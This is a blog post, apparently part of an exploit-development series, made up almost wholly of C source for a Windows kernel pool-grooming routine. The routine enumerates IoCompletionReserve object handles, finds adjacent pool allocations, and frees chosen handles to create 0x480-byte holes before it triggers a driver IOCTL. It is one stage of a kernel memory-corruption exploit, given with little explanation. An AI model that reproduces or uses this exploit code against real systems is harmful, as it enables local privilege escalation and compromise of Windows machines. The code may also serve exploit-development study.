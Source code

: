 ```yaml
---
layout: post
title: "findMemoryWindows()"
category: exploit
tagline: "Supporting tagline"
tags: [exploit]
---
```

{% include JB/setup %}

## findMemoryWindows()

### struct _PUBLIC_OBJECT_TYPE_INFORMATION
{% highlight C linenos=table %}
typedef struct _PUBLIC_OBJECT_TYPE_INFORMATION{
	UNICODE_STRING	TypeName;
	ULONG			Reserved[0x2048];
} PUBLIC_OBJECT_TYPE_INFORMATION, *PPUBLIC_OBJECT_TYPE_INFORMATION;
{% endhighlight %}

### findMemoryWindows()
{% highlight C linenos=table %}
VOID findMemoryWindows(){

	PSYSTEM_HANDLE_INFORMATION_EX handleInfo;
	getHandles(&handleInfo);

	size_t numRetrievedHandles = handleInfo->NumberOfHandles;
	PSYSTEM_HANDLE_TABLE_ENTRY_INFO_EX handleEntry = handleInfo->Handles;

	HMODULE h = LoadLibraryA("ntdll.dll");
	if(!h){
		printf("[-]Failed to load module\n");
		exit(1);
	}
	NtQueryObject pNtQueryObject = (NtQueryObject)GetProcAddress(h, "NtQueryObject");

	DWORD obj_addr[50000][2];
	int j = 0;

	for (size_t i = 0; i < numRetrievedHandles; i++){
		if(handleEntry->UniqueProcessId == (HANDLE) GetCurrentProcessId()){
			PUBLIC_OBJECT_TYPE_INFORMATION public_object_type_information;
			DWORD size = sizeof(public_object_type_information);
			NTSTATUS st = pNtQueryObject(handleEntry->HandleValue, ObjectTypeInformation, &public_object_type_information, size, NULL);
			if(!NT_SUCCESS(st)){
				printf("NtQueryObject() Failed!\n");
				__asm int 3

			}
			wchar_t IoCoObj[20] = L"IoCompletionReserve";
			if(!wcscmp(IoCoObj, public_object_type_information.TypeName.Buffer)){
				// printf("IoCo: %ls\n", public_object_type_information.TypeName.Buffer);
				// printf("handleEntry->Object: 0x%08x\n", (DWORD) handleEntry->Object);

				// printf("handleEntry->HandleValue: %d\n", handleEntry->HandleValue);
				obj_addr[j][0] = (DWORD) handleEntry->Object;
				obj_addr[j][1] = (DWORD) handleEntry->HandleValue;
				j++;
			}
		}
		handleEntry++;
	}
	qsort(obj_addr, 50000, 2*sizeof(DWORD), comp);

	
	DWORD alloc;
	DWORD obj;
	int hole_count = 0;
	for(int i = 0; i < 50000; i++){
		obj = obj_addr[i][0];
		alloc = obj_addr[i][0] - 0x30;
		if((alloc & 0xfffff000) == alloc){
			if(obj_addr[i + 2][0] == obj + 0x100 &&
				obj_addr[i + 3][0] == obj + 0x160 &&
				obj_addr[i + 4][0] == obj + 0x1c0 &&
				obj_addr[i + 5][0] == obj + 0x220 &&
				obj_addr[i + 6][0] == obj + 0x280 &&
				obj_addr[i + 7][0] == obj + 0x2e0 &&
				obj_addr[i + 8][0] == obj + 0x340 &&
				obj_addr[i + 9][0] == obj + 0x3a0 &&
				obj_addr[i + 10][0] == obj + 0x400 &&
				obj_addr[i + 11][0] == obj + 0x460 &&
				obj_addr[i + 12][0] == obj + 0x4c0 &&
				obj_addr[i + 13][0] == obj + 0x520 &&
				obj_addr[i + 14][0] == obj + 0x580){

				/*
				printf("[Adjecient Memory Chunk %d]\n", hole_count);
				printf("obj_addr[i][0] = 0x%08x\n", obj_addr[i][0]);
				printf("obj_addr[i + 2][0] = 0x%08x\n", obj_addr[i + 2][0]);
				printf("obj_addr[i + 3][0] = 0x%08x\n", obj_addr[i + 3][0]);
				printf("obj_addr[i + 4][0] = 0x%08x\n", obj_addr[i + 4][0]);
				printf("obj_addr[i + 5][0] = 0x%08x\n", obj_addr[i + 5][0]);
				printf("obj_addr[i + 6][0] = 0x%08x\n", obj_addr[i + 6][0]);
				printf("obj_addr[i + 7][0] = 0x%08x\n", obj_addr[i + 7][0]);
				printf("obj_addr[i + 8][0] = 0x%08x\n", obj_addr[i + 8][0]);
				printf("obj_addr[i + 9][0] = 0x%08x\n", obj_addr[i + 9][0]);
				printf("obj_addr[i + 10][0] = 0x%08x\n", obj_addr[i + 10][0]);
				printf("obj_addr[i + 11][0] = 0x%08x\n", obj_addr[i + 11][0]);
				printf("obj_addr[i + 12][0] = 0x%08x\n", obj_addr[i + 12][0]);
				printf("obj_addr[i + 13][0] = 0x%08x\n", obj_addr[i + 13][0]);
				printf("obj_addr[i + 14][0] = 0x%08x\n\n\n", obj_addr[i + 14][0]);
				*/

				// Create Memory Windows of 0x480 bytes (0x60*12)
				CloseHandle((HANDLE) obj_addr[i + 2][1]);
				CloseHandle((HANDLE) obj_addr[i + 3][1]);
				CloseHandle((HANDLE) obj_addr[i + 4][1]);
				CloseHandle((HANDLE) obj_addr[i + 5][1]);
				CloseHandle((HANDLE) obj_addr[i + 6][1]);
				CloseHandle((HANDLE) obj_addr[i + 7][1]);
				CloseHandle((HANDLE) obj_addr[i + 8][1]);
				CloseHandle((HANDLE) obj_addr[i + 9][1]);
				CloseHandle((HANDLE) obj_addr[i + 10][1]);
				CloseHandle((HANDLE) obj_addr[i + 11][1]);
				CloseHandle((HANDLE) obj_addr[i + 12][1]);
				CloseHandle((HANDLE) obj_addr[i + 13][1]);

				hole_count++;
			}
		}
	}

	triggerIOCTL();

	for(int i = 0; i < 50000; i++){
		obj = obj_addr[i][0];
		alloc = obj_addr[i][0] - 0x30;
		if((alloc & 0xfffff000) == alloc){
			if(obj_addr[i + 14][0] == obj + 0x580)
				CloseHandle((HANDLE) obj_addr[i + 14][1]);
		}
	}
	printf("Total Windows = %d\n", hole_count);

}
{% endhighlight %}